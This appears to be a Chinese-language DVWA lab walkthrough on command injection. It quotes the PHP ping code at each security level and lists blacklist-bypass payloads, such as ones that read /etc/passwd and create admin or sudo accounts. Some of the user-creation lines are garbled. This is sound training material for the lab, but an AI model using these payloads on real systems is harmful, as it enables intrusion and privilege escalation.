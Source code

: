 <center>Command Injection命令注入</center>









## Command Injection命令注入

> 命令注入











### 1. low

> 低级
>
> 代码：[url](http://192.168.0.111:8000/vulnerabilities/view_source.php?id=exec&security=low)

```shell
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = $_REQUEST[ 'ip' ];

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}

?>
```

> 没有做任何过滤
>
> linux/windowns 的基本命令

````shell
# win
127.0.0.1 && ipconfig
# 创建用户提升管理员
net user UserName PassWord /add
net localgroup Administrators UserName /add


# linux 等
127.0.0.1 ; ip addr
127.0.0.1 ; cat /etc/passwd 

# 创建用户
sudo useradd -m username    # -m 创建家目录
# 设置密码
sudo passwd username
# 添加到 sudo 组
sudo usermod -aG sudo username    # Ubuntu/Debian
# 或
sudo usermod -aG wheel usernam# 安全编辑 sudoers 文件
sudo visudo

# 添加以下行
username ALL=(ALL:ALL) ALLe   # CentOS/RHEL/Arch Linux
# 安全编辑 sudoers 文件
sudo visudo

# 添加以下行
username ALL=(ALL:ALL) ALL
````

> 扩展：

1. windows 的与或非

* 单个 & (简单连接符)：

```cmd
# 无条件执行后续命令，不管前面的命令是否成功
command1 & command2    # 两个命令都会执行

# 示例
dir & echo "这句话总会显示"
```



* 与操作 (AND)：

```cmd
# 使用 && 
command1 && command2    # command1 成功才执行 command2

# 示例
dir && echo "目录列表完成"
```

* 或操作 (OR)：

```cmd
# 使用 ||
command1 || command2    # command1 失败才执行 command2

# 示例
dir nonexist.txt || echo "文件不存在"
```

* 非操作 (NOT)：

```cmd
# 使用 NOT
IF NOT EXIST file.txt echo "文件不存在"

# 使用 !
IF !ERRORLEVEL! EQU 0 echo "命令成功"
```

* if判断

```cmd
:: IF 语句中的与或非
IF EXIST file.txt (
    IF NOT EXIST backup.txt (
        echo "file.txt 存在但 backup.txt 不存在"
    )
)

:: 组合使用
dir file.txt && echo "存在" || echo "不存在"
```





### 2. medium

> 中级
>
> 代码直接点击 `view source`

```shell
# 做了过滤
    // Set blacklist
    $substitutions = array(
        '&&' => '',
        ';'  => '',
    );

    // Remove any of the charactars in the array (blacklist).
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );
```

> 不使用`&&`和`;`字符

```shell
# win
127.0.0.1 & ipconfig

# linux
127.0.0.1 | ip addr
```





### 3. high

> 高级
>
> 代码

```php
# 做了更多字符过滤   
// Set blacklist
    $substitutions = array(
        '&'  => '',
        ';'  => '',
        '| ' => '',
        '-'  => '',
        '$'  => '',
        '('  => '',
        ')'  => '',
        '`'  => '',
        '||' => '',
    );

    // Remove any of the charactars in the array (blacklist).
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );

```

> 不加空格也可以

```shell
# windows
127.0.0.1 &&ipconfig

# linux
127.0.0.1 |cat /etc/passwd
```







### 4. impossible

> 不可能的
>
> 代码

```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $target = $_REQUEST[ 'ip' ];
    $target = stripslashes( $target );

    // Split the IP into 4 octects
    $octet = explode( ".", $target );

    // Check IF each octet is an integer
    if( ( is_numeric( $octet[0] ) ) && ( is_numeric( $octet[1] ) ) && ( is_numeric( $octet[2] ) ) && ( is_numeric( $octet[3] ) ) && ( sizeof( $octet ) == 4 ) ) {
        // If all 4 octets are int's put the IP back together.
        $target = $octet[0] . '.' . $octet[1] . '.' . $octet[2] . '.' . $octet[3];

        // Determine OS and execute the ping command.
        if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
            // Windows
            $cmd = shell_exec( 'ping  ' . $target );
        }
        else {
            // *nix
            $cmd = shell_exec( 'ping  -c 4 ' . $target );
        }

        // Feedback for the end user
        echo "<pre>{$cmd}</pre>";
    }
    else {
        // Ops. Let the user name theres a mistake
        echo '<pre>ERROR: You have entered an invalid IP.</pre>';
    }
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```

> ip切割四各部分，判断是否是数字